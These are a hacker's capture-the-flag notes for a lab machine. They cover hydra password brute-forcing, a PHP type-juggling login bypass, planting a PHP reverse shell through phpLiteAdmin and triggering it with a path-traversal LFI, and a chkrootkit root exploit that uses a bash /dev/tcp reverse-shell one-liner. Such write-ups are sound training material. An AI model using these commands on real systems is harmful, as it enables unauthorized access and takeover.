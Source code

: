 ## Takeaway
- password brute-force can sometime be helpful as a last resort. Remember to use a smaller list such as `seclists`'s  `twitter-banned.txt` before starting a large one such as `rockyou.txt`.
- If a php login page is leaking whether a user exists, one can try to use `Loose comparisons/Type Juggling( == )` to bypass authentication.
	- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#loose-comparisons-type-juggling
- Always try out different approaches. If a payload does not work, try a different one.
- Do be cautious about 
	- special characters 
	- URL encodings when dealing with web shells.
## Metadata
- One login page at `http://10.10.10.43/department/login.php`.![[Pasted image 20231224200117.png]]
	- The error code will reveal a user called `admin` exist since `Invalid Password!` is shown instead of  `invalid username`.
	- Use `Loose comparisons/Type Juggling( == )` to bypass authentication. First, use `burpsuite` to capture login attempt with username `admin` and password `whatever`and change the password post data field to `password[]=whatever`before forwarding.![[Pasted image 20231225135803.png]]![[Pasted image 20231225135820.png]]
- Another login page for `phpLiteAdmin` at  `https://10.10.10.43/db/index.php`.![[Pasted image 20231224200127.png]]
	- `hydra` can brute force the password of  `phpLiteAdmin` login panel as `password123`.![[Pasted image 20231225131246.png]]
		```bash
		#username does not matter here because `phpLiteAdmin` does not require one but `hydra` does.
		hydra -l whatever -P Miscellaneous/SecLists/Passwords/twitter-banned.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."
		```
	- `searchsploit` also reveals a couple vulnerabilities related to `phpLiteAdmin` and one of which is a RCE that potentially matches with the version above.![[Pasted image 20231225132510.png]]
#### Attack Path
- <mark>Exploitation</mark>
	- Log into the `phpLiteAdmin` and create a database called `hack.php` along with a new table called `payload`in this database and insert a `text` field  to be the php reverse shell payload. Finally, use LFI to execute the payload.![[Pasted image 20231225165007.png]]
		- <mark>Note it’s important to use " in the PHP, as ' is being used by the database to define the entire string.</mark>
	- Log into the page at `http://10.10.10.43/department/login.php` by using `Loose comparisons/Type Juggling( == )` to bypass authentication.
		- Use `burpsuite` to capture login attempt with username `admin` and password `whatever`and change the password post data field to `password[]=whatever`before forwarding.
	- Use LFI by navigating to `http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/hack.php.
- <mark>Post-Exploitation</mark>
	- <mark>www-data => amrois</mark>
		- `linPEAS` identified a potential SSH private key embedded within a `.png` file and it probably belongs to the local user `amrois`.                          ![[Pasted image 20231225171034.png]]  
		- Save the private SSH key on victim machine and use it to authenticate. However, even though `ssh` is listening on all interface but is blocked by the firewall. So we have to connect to port 22 within the reverse shell session.![[Pasted image 20231225171735.png]]
	- <mark>amrois => root</mark>
		- One can find reports generated under `/report` folder regular. Upon inspection, these reports are generated by `chkrootkit` and is vulnerable to a PrivEsc that `searchsploit` can identify.![[Pasted image 20231225181905.png]]
		- Navigate to `/tmp` folder and then run `echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.7/4444 0>&1' > update;chmod +x update` . Finally, wait for next cron job cycle to receive reverse shell call back.![[Pasted image 20231225185358.png]]